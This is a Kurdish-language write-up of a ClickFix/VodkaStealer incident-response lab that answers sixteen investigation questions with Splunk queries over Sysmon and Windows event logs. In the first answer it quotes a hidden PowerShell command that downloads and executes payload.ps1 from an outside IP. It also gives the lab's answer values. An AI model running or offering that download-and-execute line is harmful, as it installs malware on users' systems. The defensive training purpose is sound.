تاقیکردنەوەی ClickFix - VodkaStealer سناریۆیەکی ڕاستەقینەی شیکارکردنی ڕووداوە سایبەرییەکانە (Incident Response) کە تێیدا هێرشبەران لە ڕێگەی تەکنیکی خەڵەتاندنی ClickFixـەوە توانیویانە دەست بەسەر ٤ کۆمپیوتەری ناو تۆڕی کۆمپانیایەکدا بگرن


## تەکنیکی ClickFix چییە؟
تەکنیکی ClickFix جۆرێکە لە هێرشی (Social Engineering) کە هێرشبەران بەکاری ئەهێنن لە دژی بەکارهێنەران تا خۆیان بە دەستی خۆیان کۆدی زیانبەخش بکەنەوە:
1. داواکاری یان هەڵەی ساختە: بەکارهێنەر دەچێتە ماڵپەڕێک کە هەڵەیەکی ساختە دەرئەخات (وەک: CAPTCHA بۆ سەلماندن کە ئەو کەسە مرۆڤە نەک بۆت، ئەپدەیت کردنی براوزەر، یان کێشە لە کردنەوەی فایلی MS Word/PDF).
2. کۆپیکردنی ئۆتۆماتیکی: کاتێک بەکارهێنەر کلیک لەسەر دوگمەی "Fix" یان "I'm not a robot" دەکات، ماڵپەڕەکە لە پشتەوە (Background) کۆدێکی زیانبەخشی PowerShell کۆپی دەکاتە سەر Clipboard (شوێنی کۆپی و پەیست کردن).
3. ڕێنمایی لەسەر شاشەکە دەرئەکەوێت کە داوا لە بەکارهێنەر ئەکاتRun Dialog (Win + R) یان Terminal بکاتەوە، و کۆدەکە بە Ctrl + V کۆپی پەیست بکات و ئەنتەر بکات!
4. ئەنجام: بەم کارە بەکارهێنەر دەبێتە هۆی دابەزاندن و کارپێکردنی مالوێر (وەک VodkaStealer یان Lumma Stealer) بەبێ ئەوەی ئانتی ڤایرۆسەکان زوو پێی بزانن، چونکە کرداری دەستپێکردنەکە بە دەستی بەکارهێنەر خۆی ئەنجام دراوە.




# پرسیارەکان


## Initial Access
### پرسیاری یەکەم ١
> The user visited a legitimate website that had been compromised with a ClickFix CAPTCHA overlay. What is the IP address of this website?

هەر وەکو باسمان کرد لەسەرەوە ClickFix یان بە Terminal یان بە  Run Dialog Win + R دەسپێ ئەکات. یەکەم هەنگاو شیکارکردنی Run Dialogە هەر کاتێک شتێ بنوسرێ لەوێ و ران بکرێ ئەوە لە بەشی  Registry خەزن ئەکرێ 

```HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU```

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "CurrentVersion\\Explorer\\RunMRU" EventCode=13
| table _time, TargetObject, Details
| sort _time
```



لە کاتژمێر `23:26:21` کۆماندێکی نامۆ دەرئەکەوێ، کە پاورشێل سکریپتێ دائەبەزێنێ، لەمەیا بۆمان دەرئەکەوێ کە `3.122.229.6` یەکێکە لە سێرڤەری هێرشبەرەکە.

`powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://3.122.229.6/payload.ps1')"\1`

> وەلامی پرسیاری یەکەم: **3.122.229.6**

## Execution
### پرسیاری دووەم ٢

> After interacting with the fake CAPTCHA, a PowerShell command was copied to the user's clipboard and executed via the Run dialog. What is the name of the payload file this command downloads?

زانینی دەسپێکی هێرشەکە یارمەتیدەرمان ئەبێ لە فیلتەرکردنی کاتی رووداوەکە، هەر وەکو لە رەسمەکەی سەرەوە بۆمان دەرئەکەوێ payload.ps1 ئەو سکریپتەیە کە دائەبەزێ و فیلتەرکردنی بە ناوی IOCەکە واتا payload.ps1 بەرچاوروونیەکەی زیاتر ئەیات کە چی روویداوە.

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 payload.ps1
| table _time, ParentImage, ParentCommandLine, ParentProcessId, Image, CommandLine, ProcessId
| sort _time
```



> وەلامی پرسیاری یەکەم: **payload.ps1**

## Command and Control
### پرسیاری سێیەم ٣

> The initial payload established a command-and-control channel. What is the IP address of the C2 server?

لە هەر هێرشێکا ئەو Process IDە کە دەس ئەکات بە ئەنجامدانی کرداری زیان بەخش سوودی ئەبێتن لە بەدواداچوونی کردارەکانیش. ئەگەر فیلتەرکەین بە Process ID 5580 و بە Sysmon Event ID 3 ئەبەینن کەوە دەس ئەکە بە گفتوگۆ یا ریکوێست ناردن بۆ 100.52.249.75

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 ParentProcessId=5580 OR ProcessId=5580
| table _time, Image, ProcessId, SourceIp, DestinationIp
| sort _time
```



> وەلامی پرسیاری سێەیەم: **100.52.249.75**

## Discovery
### پرسیاری چوارەم ٤

> To find a privilege escalation vector, the attacker enumerated all Windows services and their properties. What is the WMI command used to retrieve service names, executable paths, and start modes?

WMI (Windows Management Instrumentation) یەکێکە لەو توولانەی ناو ویندۆز بۆ دۆزینەوەی زانیاری سەباەرەت بە سۆفتوێر و هاردوێری کۆمپیتەرەکە، لەم ‌پرسیارەیا هێرشبەرەکە بەکاری هێناوە بۆ سێرڤسی ویندۆز کە زۆر کات بۆ Privilage Escalation بەکارهاتوە

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 ParentProcessId=5580 OR ProcessId=5580
| table _time, ParentImage, ParentCommandLine, ParentProcessId, Image, CommandLine, ProcessId
| sort _time
```


> وەلامی پرسیاری چوارەم: **wmic service get name,pathname,startmode**

## Privilege Escalation
### پرسیاری پێنجەم ٥

> The attacker exploited an unquoted service path vulnerability. What is the name of the service they exploited?

یەکێک لە تەکنیکەکانی **Privilege Escalation** بریتییە لە **Unquoted Service Path** کاتێک سێرڤسێکی ویندۆز دروست دەکرێت، ئەگەر ڕێڕەوی پرۆگرامەکە بۆشایی تێدا بێت و بە نیشانەی `" "` دیاری نەکرابێت، هێرشبەر دەتوانێت لە هەندێک بارودۆخدا سوود لەم کێشەیە وەربگرێت. ئەتوانن سوود لەم سەرچاوایە ببینن:

`https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths`


ئەو سێرڤسی ویندۆزەی لەم هێرشەدا بەکارهاتووە `DataSyncPro` ـە.

> وەلامی پرسیاری پێنجەم: **DataSyncPro**

### پرسیاری شەشەم ٦

> To hijack the service execution flow, the attacker placed a malicious binary in a specific directory. What is the name of this malicious executable?

بۆ دۆزینەوەی فایلە دروستکراوەکان و پرۆسێسە پەیوەندیدارەکان، ئەتوانین Sysmon Event ID 11 بۆ دروستکردنی فایل و Event ID 1 بۆ دەستپێکردنی پرۆسێس بپشکنین. لەم نموونەیەدا `ProcessId` و `ParentProcessId` بۆ بەدواداچوونی پرۆسێسە پەیوەندیدارەکان بەکاردێن:

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=11 OR EventCode=1) (ParentProcessId=5580 OR ProcessId=5580)
| table _time, EventCode, ParentImage, ParentCommandLine, ParentProcessId, Image, CommandLine, ProcessId, TargetFilename
| sort _time
```



ئەگەر ورد ببینین، لە سەرەتا فایلێک بە ناوی `Service.exe` دروست کرا، دواتر ناوەکەی گۆڕدرا بۆ `Sync.exe`.

> وەلامی پرسیاری شەشەم: **Sync.exe**

## Command and Control
### پرسیاری حەوتەم ٧

> After successfully escalating privileges, a new process began beaconing to the C2 server as SYSTEM. What is the name of this process?

ئەم کوێرییە بۆ دۆزینەوەی ئەو پرۆسێسانە بەکاردێت کە پەیوەندییان لەگەڵ سێرڤەری **C2** هەبووە. `EventCode=3` لە Sysmon زانیاریی پەیوەندییەکانی تۆڕ پیشان ئەدات؛ هەر وەکو بۆمان دەرکەوت لە پرسیارەکانی پێشوو C2 Ip Addressەکە **100.52.249.75** بوو، بۆیە ئەوەش یارمەتیدەرمان ئەبێت لە دروستکردنی کوێرەیەکە.

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 DestinationIp=100.52.249.75
| dedup Image
| stats values(Image) by DestinationIp
```


> وەلامی پرسیاری حەوتەم: **rundll32.exe**

## Credential Access
### پرسیاری هەشتەم ٨

> At what time did the attacker first obtain full access to LSASS for credential dumping?

یەکێک لە تەکنیکە مەترسیدارەکان **LSASS Credential Dumping** ـە، کە هێرشبەران دەتوانن بۆ دەستکەوتنی زانیارییە هەستیارەکانی وەک وشەی نهێنی و NT hash بەکاری بهێنن. ئەم جۆرە دەستگەیشتنە دەتوانرێت بە **Sysmon Event ID 10**، کە بۆ چاودێریکردنی دەستگەیشتنی پرۆسێسێک بۆ پرۆسێسێکی ترە.

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=10 TargetImage="C:\\Windows\\system32\\lsass.exe"
| sort _time
```



بۆ وەڵامدانەوە، کاتی یەکەم ڕووداوی پەیوەندیدار بە دەستگەیشتنی تەواو بە `lsass.exe` لە ئەنجامی کوێرییەکەدا دەدۆزرێتەوە.

> وەلامی پرسیاری هەشتەم: **00:16:52  2026-04-21**

### پرسیاری نۆیەم ٩

> After harvesting credentials, the attacker used a stolen account for pass-the-hash lateral movement. What was the username of that account?

Pass the Hash تەکنیکێکی هێرشە کە تێیدا هێرشبەر بە بەکارهێنانی NTLM Hash بەبێ ئەوەی پێویستی بە زانینی وشەی نهێنیی ڕاستەقینە هەبێت.
بە واتایەکی سادە، لەبری ئەوەی Password بەکاربهێنێت، Hash ـەکە بەکار دەهێنێت بۆ ئەوەی خۆی وەک بەکارهێنەر بناسێنێت.

سەرەتا پێویستە بزانین ئەو کۆمپیتەرەی کە هێرشکەرەکە لە سەری بوو IP Addressی چەنە. لە پرسیارەکانی پێشوو دەرکەوت ناوی کۆمپیتەرەکە، PAYOPS-WS-04ە ئەگەر فیلتەرکەین بە ناوی ئەم هۆستە و بە Sysmon Event ID 3.

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3  host="PAYOPS-WS-04" 
| stats count by SourceIp
```



IP Addressی PAYOPS-WS-04: **10.10.11.252**

دروستکردنی ئەم کوێریە وەلامەکەمان پێ ئەلێت، باشە چۆن؟ هەر کاتێ کە لەسەر کۆمپیوتەرێ Login ئەکەی ئەوە Sysmon Event ID 4624 دروست ئەکرێ، کە ناوی Userە کە Login لەسەر کراوە و Ip Addressی ئەو کۆمپیوتەرە کە Loginی لەسەر کردوە لە خۆ ئەگرێ، ئێمە هەلساین بە دۆزینەوەی ئەو IP Addressی کە دەسی بەسەرا گیرابوو, بۆ ئاسانکاری دۆزینەوەی ئەو Userە کە لەو IP Addressئەوە Login کردوە

```bash
EventCode=4624 earliest="04/21/2026:00:16:52" IpAddress="10.10.11.252" | sort _time
```



هەر چۆن دیارە ئەو کوێریە ئەو Userەنەمان پێ نیشان ئەدات کە Login کراوە لە لایەن 10.10.11.252.

ئەشتوانی کوێریەکە باشتر کەی بە زیاد کردن Logon_Type=3، کە یارمەتیدەر ئەبێ لە دۆزینەوەی هێرشی Pass The Hash.

> وەلامی پرسیاری نۆیەم: **k.mostafa.admin21**

## Lateral Movement
### پرسیاری دەیەم ١٠

> The attacker used the compromised domain admin's credentials to move laterally to a file server. What is the IP address of this server?

```bash
EventCode=4624 earliest="04/21/2026:00:20:11" "k.mostafa.admin" | sort _time
```

لە یەکێ لە ئەنجامەکان، ئەکاونتی k.mostafa.admin خۆی ئەناسێنێ بە کۆمپیوتەری **COMP-FS-01**، کە ئەمە فایل سێرڤەرەکەیە




بە بەکار‌هێنانی ئەم کوێریەش بۆمان ئەسەلمێنرێ کە COMP-FS-01 خاوەنی ئەم Private IP Addressەیە **10.10.11.81**

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3  host="COMP-FS-01" 
| stats count by SourceIp
```

> وەلامی پرسیاری دەیەم: **10.10.11.81**

### پرسیاری یانزەیەم ١١

> A common lateral movement technique involves creating a temporary service on the target machine. What is the name of the service binary created on the file server?

**PsExec** ئامرازێکە کە ڕێگە ئەدات کۆنرتۆلی کۆمپیوتەرێکی تر لە ڕێگەی تۆڕەوە بکرێت. هێرشبەران ئەتوانن بۆ **Lateral Movement** بەکاری بهێنن بۆ گواستنەوە لە سیستەمێکەوە بۆ سیستەمێکی تر.

هێرشبەر لەم سیناریۆیە PsExecی بەکار هێناوە بۆ Lateral Movement, بۆ دۆزیەنەوەی ئەم هێرشە ئەتوانین Application Event ID 7045 بەکار بهێنین

```bash
EventCode=7045  host="COMP-FS-01" earliest="04/21/2026:00:30:00"
```



لە بەشی **ImagePath** ناوی فایلی سێرڤسەکە دەرئەکەوێ

\\10.10.11.81\ADMIN$\\**2fdb156.exe**

> وەلامی پرسیاری یانزەیەم: **2fdb156.exe**

## Persistence
### پرسیاری دوانزەیەم ١٢

> To maintain access, the attacker created a scheduled task on all compromised machines. What is the full path of this scheduled task?

**Scheduled Task** یەکێکە لە تەکتیکە ناوبانگەکانی هێرشکەر و هەر بۆیە چاودێریەکی باشی لەسەر کراوە. لەم پرسیارە هێرشبەر هەستاوە بە دروستکردنی Persistence لەسەر هەموو کۆمپیوتەرەکان.

بۆ هەر Scheduled Taskێ کە دروست ئەکرێ ئەوە Event ID 4698 خەزنی ئەکا (Logging)

```bash
EventCode=4698  earliest="04/21/2026:00:30:00"
```




> وەلامی پرسیاری دوانزەیەم: **\NextGen\DataSync Update**


### پرسیاری سیانزەیەم ١٣

> The scheduled task was configured to execute a script. What is the filename of this script?

بەکارهێنانی هەمان کوێری لە پرسیاری پێشوو ناوی فایلی Persistenceئەکە دەرئەکا

```bash
EventCode=4698  earliest="04/21/2026:00:30:00"
```




> وەلامی پرسیاری سیانزەیەم: **svc_update.ps1**

## Collection
### پرسیاری چواردەیەم ١٤

> The malicious script forcefully terminates browser processes to unlock their data files. What are the two browser processes it targets?

ئیستە ئەبێ لە سکرێپتەکە بکۆلینەوە کە چی کردارێ ئەنجام ئەدات, من لەم کوێریە Event ID 1 بەکار هێناوە بۆ ئاسنکاری خۆم، بەلام لە هێرشی راستیا وا باشترە کە خۆت پەیوەست نەکەی بە یەک Event ID. بۆ نمونە بلێین ئەم سکریپتە Child Process دروست ئەکات و دەس ئەکات بە Process Injection ئێمە گەر فیلتەر کەین بەس بۆ Event ID 1 ئەوە Process Injectionئەکەمان لە بەرچاو ئەروا, بۆیە ئێمە هەر کاتێ کە پرۆگرامێکی زیانبەخش ئەکەوێتە دەسمان پێویستە بە هەموو Event IDیەکانی بەدوای بگەرێین.

```bash
EventCode=1  earliest="04/21/2026:00:50:00" "*svc_update.ps1*"
| table _time, ParentImage, ParentCommandLine, Image, CommandLine
```



> وەلامی پرسیاری چواردەیەم: **opera.exe, msedge.exe**


### پرسیاری پانزەیەم ١٥

> What staging directory name was created during the first stealer execution on PAYOPS-WS-04? Provide only the directory name, not its full path or the ZIP filename.

هەر کاتێک کە سکریپتی Powershell کەوتە دەستا، فیلتەر کە بە Event ID 4104، ئەمە سکریپت کۆدەکەت کامل نیشان ئەداد و هەر ئەم Event ID هاوکاریمان ئەکات لە پرسیارەکانی داهاتوو.

```bash
EventCode=4104  earliest="04/21/2026:01:30:00" "*svc_update.ps1*"
| sort _time
```



شیکاری بەشێکی سکریپتەکە کەین ناوی Staging فۆلدەرەکە دەر ئەکەوێ **sysinfo**، فیلتەرکردن بەو ناوە و Sysmon Event ID 11 ئەمانگەیێنێتە وەلام.

```bash
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 earliest="04/21/2026:01:30:00" "*sysinfo*"
```



> وەلامی پرسیاری پانزەیەم: **sysinfo_US_10.0.0.1_210420260133**

## Exfiltration
### پرسیاری شانزەیەم ١٦

> The attacker exfiltrated the stolen data to an external server. What is the IP address of the data exfiltration server?

هەروەکو پرسیاری پێشوو شیکاری سکریپتەکە بکەین Serverی Exfiltrationمان بۆ روون ئەبێ


```bash
EventCode=4104 earliest="04/21/2026:01:50:00" "*svc_update*"
```

